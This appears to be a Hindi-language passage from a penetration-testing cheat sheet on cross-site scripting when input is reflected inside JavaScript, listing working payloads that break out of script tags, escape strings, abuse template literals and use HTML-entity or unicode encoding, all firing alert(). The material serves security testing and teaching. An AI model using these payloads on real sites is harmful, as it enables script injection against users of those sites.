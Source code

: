 इन मामलों में आपका **इनपुट** **JS कोड** के एक `.js` फ़ाइल या `<script>...</script>` टैग के बीच या HTML इवेंट के बीच जो JS कोड को निष्पादित कर सकते हैं या उन विशेषताओं के बीच जो `javascript:` प्रोटोकॉल को स्वीकार करते हैं, में **प्रतिबिंबित** होने जा रहा है।

### \<script> टैग को एस्केप करना

यदि आपका कोड `<script> [...] var input = 'reflected data' [...] </script>` के भीतर डाला गया है, तो आप आसानी से `<script>` टैग को **एस्केप** कर सकते हैं:
```javascript
</script><img src=1 onerror=alert(document.domain)>
```
ध्यान दें कि इस उदाहरण में हमने **एकल उद्धरण को भी बंद नहीं किया है**। इसका कारण यह है कि **HTML पार्सिंग पहले ब्राउज़र द्वारा की जाती है**, जिसमें पृष्ठ तत्वों की पहचान करना शामिल है, जिसमें स्क्रिप्ट के ब्लॉक भी शामिल हैं। JavaScript का पार्सिंग, अंतर्निहित स्क्रिप्ट को समझने और निष्पादित करने के लिए, केवल बाद में किया जाता है।

### JS कोड के अंदर

यदि `<>` को साफ किया जा रहा है, तो आप अभी भी **स्ट्रिंग को एस्केप** कर सकते हैं जहां आपका इनपुट **स्थित** है और **मनमाने JS को निष्पादित** कर सकते हैं। **JS सिंटैक्स को ठीक करना** महत्वपूर्ण है, क्योंकि यदि कोई त्रुटियाँ हैं, तो JS कोड निष्पादित नहीं होगा:
```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```
### Template literals \`\`

**स्ट्रिंग्स** को एकल और दोहरे उद्धरणों के अलावा बनाने के लिए, JS **बैकटिक्स** **` `` `** को भी स्वीकार करता है। इसे टेम्पलेट लिटेरल कहा जाता है क्योंकि यह `${ ... }` सिंटैक्स का उपयोग करके **JS एक्सप्रेशंस** को **एंबेड** करने की अनुमति देता है।\
इसलिए, यदि आप पाते हैं कि आपका इनपुट एक JS स्ट्रिंग के अंदर **प्रतिबिंबित** हो रहा है जो बैकटिक्स का उपयोग कर रहा है, तो आप **मनमाने JS कोड** को निष्पादित करने के लिए `${ ... }` सिंटैक्स का दुरुपयोग कर सकते हैं:

इसका **दुरुपयोग** किया जा सकता है:
```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````
### एन्कोडेड कोड निष्पादन
```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```
### यूनिकोड एन्कोड जेएस निष्पादन
```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
### JavaScript बायपास ब्लैकलिस्ट तकनीकें

